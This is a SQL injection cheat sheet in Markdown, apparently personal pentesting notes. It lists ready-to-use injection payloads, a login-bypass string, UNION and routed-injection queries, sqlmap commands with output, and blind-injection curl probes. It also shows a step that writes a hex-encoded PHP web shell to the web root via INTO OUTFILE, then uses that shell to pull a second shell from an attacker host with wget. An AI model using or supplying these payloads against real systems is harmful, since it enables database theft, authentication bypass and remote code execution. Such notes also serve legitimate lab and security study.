 ```yaml
---
title: SQLi 💉
---
```

## Entry point detection

```sql
'
"
`
')
")
`)
'))
"))
`))
```

## Union based

### Union Select

```sql
ID union select 1,2,3,4
' union select 1, @@version-- -
' union select 1, table_name FROM information_schema.tables-- -
```

### Union Group By / Order

```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False -> query is only using 3 columns
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False -> query is only using 3 columns
```

## Upload webshell

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>` traduces in `0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E` in hex format:
[Reverse shells 👾](reverse_shells.md)
```sql
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -
```

- If you get an error, the query has been executed correctly. Now check `/shell.php`
- Now, to gain a full shell, you can just upload one and then calling it like:
	- Create the shell (check [Reverse shells 👾](reverse_shells.md))
	- Create python web server
	- Download it from the browser: `http://domain.com/shell.php?cmd=wget http://IP_ATTACK:PORT/sexyshell.php`
	- Call it: `http://domain.com/sexyshell.php`

## Bypass a login

- You can try: 

```sql
username: admin' or 1=1-- -

password: whatever
```

## Storing location

- A common way to try to influence on our IP address via HTTP is to use the `X-Forwarded-For` header. We can directly set an injection point in this header:

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL
```

- The result might look like this:

```shell
sqlmap identified the following injection point(s) with a total of 2254 HTTP(s) requests:
---
Parameter: X-Forwarded-For #1* ((custom) HEADER)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: 10.11.75.136';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 10.11.75.136' AND (SELECT 8527 FROM (SELECT(SLEEP(5)))ACZe)-- jhGF
---
```

==Now go to the **Sqlmap** note to follow.==

## Boolean-based Blind

- When introducing a username to register and the app says if it is available or not, we can analyze the traffic and evaluate an API request:

![](Pasted%20image%2020240323224232.png)

- The request looks like this and returns a boolean in JSON:

```shell
curl "http://10.10.115.157/register/user-check?username=gitblanc" -s | jq
# returns:
{  
  "available": true  
}
# A username that is in use:
curl "http://10.10.115.157/register/user-check?username=admin" -s | jq
# returns:
{
  "available": false
}
```

- So we can try for:

```shell
curl "http://10.10.115.157/register/user-check?username=gitblanc' OR 1=2-- -" -s | jq
# returns:
{  
  "available": true  
}
curl "http://10.10.115.157/register/user-check?username=gitblanc' OR 1=1-- -" -s | jq
# returns:
{  
  "available": false  
}
curl "http://10.10.115.157/register/user-check?username=admin' OR 1=2-- -" -s | jq
# returns:
{  
  "available": true  
}
curl "http://10.10.115.157/register/user-check?username=admin' OR 1=1-- -" -s | jq
# returns:
{  
  "available": false  
}
```

- Try it with sqlmap: 

```shell
sqlmap -u 'http://domain.com/register/user-check?username=gitblanc' -p username --risk 3 --level 5 --dbms MySQL
```

## Routed SQLi

> **Routed SQL Injection** can be In-band, Inferential or Out-of-band. It is a special kind of SQLi attack where the injectable query is not the one which is leaking the data but the output of this query is the input of another query that is giving the final data leakage.
> 
The following piece of PHP code from _Zenodermus Javanicus_ illustrates how the vulnerability can be implemented on the server-side.

```php
<?php   
$id = $_GET['id'];  
$query = "SELECT id,sec_code FROM users WHERE id='$id'";  
  
if (!$result = mysql_query($query, $conn)) die("Error While Selection process : " . mysql_error());  
  
if (mysql_num_rows($result) == 0) die();  
$row = mysql_fetch_array($result, MYSQL_ASSOC);  
$query = "SELECT username FROM users WHERE sec_code='" . $row['sec_code'] . "'";  
echo "<br /><font color=red>This is the query which gives you Output : </font>$query<br /><br />";  
  
if (!$result = mysql_query($query, $conn)) die("Error While Selection process : " . mysql_error());  
  
if (mysql_num_rows($result) == 0) die("Invalid Input parameter");  
$row = mysql_fetch_array($result, MYSQL_ASSOC);  
echo 'Username is : ' . $row['username'] . "<br />"; ?>
```

>First, a classical SQLi attack can be conducted to deduce the number of columns of the first query.
>
Then, the first part of the first query need to be voided with something like `and false` or `and 1=0` so this will output 0 rows. Using `UNION SELECT` in the second part of the first query will allow to control the output.
>
>Example of payload:

```sql
?user=john' AND FALSE UNION SELECT 1,2,3-- -
```

>But instead of injecting dummy data in the second query, it is needed to encode the nested payload as hexadecimal to carry it.
>
>Example of payload:

```sql
?user=john' AND FALSE UNION SELECT 1,0x220756e696f6e2073656c65637420757365722c70617373776f72642d2d202d,3-- -
```

>It is needed to encode the nested payload to avoid it interfering with the root query. The goal is to use `UNION SELECT` in the first query to display a SQL payload as an input of the second query. So the decoded version of `0x220756e696f6e2073656c65637420757365722c70617373776f72642d2d202d` (`' union select user,password-- -`) will be injected in the second query. Routing the payload from a query to another.

- With the following payload, we are able to detect which columns are reflected:

```sql
2 union all select 'gitblanc','is','sexy' from users-- -
```

![](Pasted%20image%2020240323231230.png)

- So now, we can try to replace `gitblanc` or `is` with a SQL query.
- With the nested payload we can find which columns is reflected:

```sql
2 union all select '44 UNION SELECT 5,6,7,8-- -','is','sexy' from users-- -
```

![](Pasted%20image%2020240323231506.png)

- So now, we replace the nested to select the flag (now you could list tables and columns in a real scenario):

```sql
2 union all select '44 UNION SELECT 5,flag,7,8 from flag-- -','is','sexy' from users-- -
```

![](Pasted%20image%2020240323231734.png)

## In-band SQLi

- If you try a Union select attack like: `33 UNION SELECT 1,2,3,4` and you get an output like:

![](Pasted%20image%2020240323232050.png)

- Now you know that you have an **In-Band SQLi**
- ==Now list the databases with Sqlmap==